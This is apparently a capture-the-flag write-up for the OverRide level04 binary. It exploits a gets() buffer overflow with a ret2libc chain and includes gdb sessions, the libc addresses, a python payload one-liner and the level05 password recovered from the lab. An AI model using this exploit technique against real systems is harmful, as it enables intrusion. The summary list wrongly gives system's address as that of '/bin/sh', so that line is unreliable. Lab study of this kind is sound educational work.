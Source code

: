 
# Walkthrough

**Main** : 
this program is meant to demonstrate how a parent process can use ptrace to monitor and control the execution of a child process. 
It prevents debugging of the child process and block the use of the execve system call. 
However, it contains a security vulnerability due to the use of gets(), which can lead to buffer overflow  and shellcode  in the child process, we going to exploit this vulnerability 



**Process to exploit :**
>   1. **Find the offset**. 
>   2. **Method RET2LIBC** 
>  3. **Load payload**


## Step 1

###  Find the Offset

```
level04@OverRide:~$ gdb level04 
...
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 6028]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 6028]
0x41326641 in ?? () 
```

the offset is `0x41326641` = 156

## Step 2

### Set environnement variable
like the parent process block the use of the execve system call in child process 
We going to use method **RET2LIBC**  :
Instead of directly executing shellcode, the attacker leverages existing code in the program's memory. 
They often target the C standard library (libc) functions that are already loaded in memory, such as system(), exit()

**Utile command:**

 1. The command `info proc map` in GDB is used to display the memory map or memory layout of the currently debugged process. It provides information about the memory regions used by the process, such as code, data, stack, and shared libraries.
 2. This command sets GDB to follow the child process when a fork is executed
 3. x/s address :  is used to examine memory at a specific address it's attempting to print a string located at the specific memory address 
we need the address of the follow item from the libc memory 

 **We need the address of the follow item from the libc memory  Address**  : 
  -  system   
 - exit          
 - /bin/sh  

```
level04@OverRide:~$ gdb level04 
...
(gdb) set follow-fork-mode child
(gdb) info function system
(gdb) r
Starting program: /home/users/level04/level04 
[New process 6374]
Give me some shellcode, k
^C

<--make pause to the program while it's running with `CTRL+C` to interrupt the program.-->

(gdb) info function system
...
0xf7e6aed0  system

(gdb) info function exit
...
0xf7e5eb70  exit

(gdb) info proc map
process 6455
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	...

	(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
	0xf7f897ec
	1 pattern found.
	(gdb) x/s 0xf7f897ec 
	0xf7f897ec:	 "/bin/sh"
```

**Address** 
 -  system   =  0xf7f897ec
 - exit          =  0xf7e5eb70
 - /bin/sh =  0xf7f897ec 


## Step 3

### Load payload

```
level04@OverRide:~$ (python -c "print 156 * 'A' + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xf7\xf8\x97\xec'[::-1]" ; cat) |./level04
Give me some shellcode, k
ls
ls: cannot open directory .: Permission denied
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
